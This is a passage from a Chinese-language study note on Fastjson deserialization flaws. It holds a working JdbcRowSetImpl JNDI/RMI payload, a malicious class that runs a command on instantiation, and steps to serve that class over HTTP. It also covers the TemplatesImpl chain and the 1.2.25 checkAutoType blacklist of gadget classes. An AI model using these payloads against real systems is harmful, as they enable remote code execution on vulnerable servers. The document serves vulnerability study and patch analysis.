 Unser.java

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;

public class Unser {
    public static void main(String[] argv){
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/badClassName\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://172.16.159.53:1099/59bwt8", "autoCommit":true}
```

badClassName.java

```
public class badClassName {
    public badClassName() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

编译成class文件,并且开一个http服务

![image-20220228121507807](images/22.png)

LDAP的方法和只是把协议和服务改为LDAP即可

# TemplatesImpl利用链

虽然这条链在实战中用的很少,但是是流传较广的一条利用链了

漏洞原理：Fastjson通过`bytecodes`字段传入恶意类，调用outputProperties属性的getter方法时，实例化传入的恶意类，调用其构造方法，造成任意命令执行。

但是由于需要在parse反序列化时设置第二个参数Feature.SupportNonPublicField，所以利用面很窄

前面的都差不多相同,后面就有点像CC链的加载恶意的class文件了,具体流程可以参考http://www.lmxspace.com/2019/06/29/FastJson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0/#fastjson-1-22-1-24

# 补丁分析

从1.2.25开始对这个漏洞进行了修补，修补方式是将TypeUtils.loadClass替换为checkAutoType()函数,并且添加了黑名单

![image-20220228184411567](images/23.png)

```
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils,
org.apache.commons.collections.Transformer,
org.apache.commons.collections.functors,
org.apache.commons.collections4.comparators,
org.apache.commons.fileupload,
```